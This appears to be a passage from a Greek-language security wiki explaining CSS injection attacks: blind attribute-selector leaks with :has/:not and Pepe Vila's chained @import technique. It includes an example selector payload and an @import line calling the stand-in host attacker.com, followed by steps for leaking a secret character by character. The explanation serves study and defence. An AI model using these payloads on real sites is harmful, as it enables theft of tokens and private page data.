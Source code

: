 #### Προϋποθέσεις για την Εισαγωγή CSS

Για να είναι αποτελεσματική η τεχνική Εισαγωγής CSS, πρέπει να πληρούνται ορισμένες προϋποθέσεις:

1. **Μήκος Φορτίου**: Ο διάνυσμα εισαγωγής CSS πρέπει να υποστηρίζει αρκετά μεγάλα φορτία για να χωρέσει τους κατασκευασμένους επιλογείς.
2. **Επανεκτίμηση CSS**: Θα πρέπει να έχετε τη δυνατότητα να διαμορφώσετε τη σελίδα, η οποία είναι απαραίτητη για να ενεργοποιηθεί η επανεκτίμηση του CSS με νεοδημιουργημένα φορτία.
3. **Εξωτερικοί Πόροι**: Η τεχνική υποθέτει τη δυνατότητα χρήσης εικόνων που φιλοξενούνται εξωτερικά. Αυτό ενδέχεται να περιορίζεται από την Πολιτική Ασφαλείας Περιεχομένου (CSP) του ιστότοπου.

### Τυφλός Επιλογέας Χαρακτηριστικών

Όπως [**εξηγείται σε αυτήν την ανάρτηση**](https://portswigger.net/research/blind-css-exfiltration), είναι δυνατόν να συνδυάσετε τους επιλογείς **`:has`** και **`:not`** για να αναγνωρίσετε περιεχόμενο ακόμα και από τυφλά στοιχεία. Αυτό είναι πολύ χρήσιμο όταν δεν έχετε ιδέα τι περιέχεται στην ιστοσελίδα που φορτώνει την εισαγωγή CSS.\
Είναι επίσης δυνατόν να χρησιμοποιήσετε αυτούς τους επιλογείς για να εξάγετε πληροφορίες από διάφορα τμήματα του ίδιου τύπου όπως στο:

```html
<style>
html:has(input[name^="m"]):not(input[name="mytoken"]) {
background:url(/m);
}
</style>
<input name=mytoken value=1337>
<input name=myname value=gareth>
```

Συνδυάζοντας αυτό με την ακόλουθη τεχνική **@import**, είναι δυνατή η εξαγωγή πολλών **πληροφοριών χρησιμοποιώντας ενσωμάτωση CSS από τυφλές σελίδες με** [**blind-css-exfiltration**](https://github.com/hackvertor/blind-css-exfiltration)**.**

### @import

Η προηγούμενη τεχνική έχει μερικά μειονεκτήματα, ελέγξτε τις προϋποθέσεις. Χρειάζεται είτε να μπορείτε να **στείλετε πολλούς συνδέσμους στο θύμα**, είτε να μπορείτε να **ενσωματώσετε την ευπάθεια ενσωμάτωσης CSS σε μια σελίδα**.

Ωστόσο, υπάρχει μια άλλη εξυπνη τεχνική που χρησιμοποιεί το **CSS `@import`** για να βελτιώσει την ποιότητα της τεχνικής.

Αυτό πρωτοεμφανίστηκε από τον [**Pepe Vila**](https://vwzq.net/slides/2019-s3\_css\_injection\_attacks.pdf) και λειτουργεί ως εξής:

Αντί να φορτώνουμε την ίδια σελίδα ξανά και ξανά με δεκάδες διαφορετικά φορτία κάθε φορά (όπως στην προηγούμενη), θα **φορτώσουμε τη σελίδα μόνο μια φορά και μόνο με ένα import στον διακομιστή των επιτιθέμενων** (αυτό είναι το φορτίο που πρέπει να σταλεί στο θύμα):

```css
@import url('//attacker.com:5001/start?');
```

1. Η εισαγωγή θα λάβει κάποιο CSS script από τους επιτιθέμενους και ο περιηγητής θα το φορτώσει.
2. Το πρώτο μέρος του CSS script που θα στείλει ο επιτιθέμενος είναι άλλο ένα `@import` προς τον διακομιστή των επιτιθέμενων.
3. Ο διακομιστής των επιτιθέμενων δεν θα απαντήσει ακόμα σε αυτό το αίτημα, καθώς θέλουμε να διαρρεύσουμε μερικούς χαρακτήρες και στη συνέχεια να απαντήσουμε σε αυτήν την εισαγωγή με το φορτίο για να διαρρεύσουμε τους επόμενους.
4. Το δεύτερο και μεγαλύτερο μέρος του φορτίου θα είναι ένα φορτίο διαρροής επιλογέα γνωρισμάτων.
5. Αυτό θα στείλει στον διακομιστή των επιτιθέμενων τον πρώτο χαρακτήρα του μυστικού και τον τελευταίο.
6. Μόλις ο διακομιστής των επιτιθέμενων λάβει τον πρώτο και τον τελευταίο χαρακτήρα του μυστικού, θα απαντήσει στην εισαγωγή που ζητήθηκε στο βήμα 2.
7. Η απάντηση θα είναι ακριβώς η ίδια με τα βήματα 2, 3 και 4, αλλά αυτή τη φορά θα προσπαθήσει να βρει τον δεύτερο χαρακτήρα του μυστικού και στη συνέχεια τον προτελευταίο.
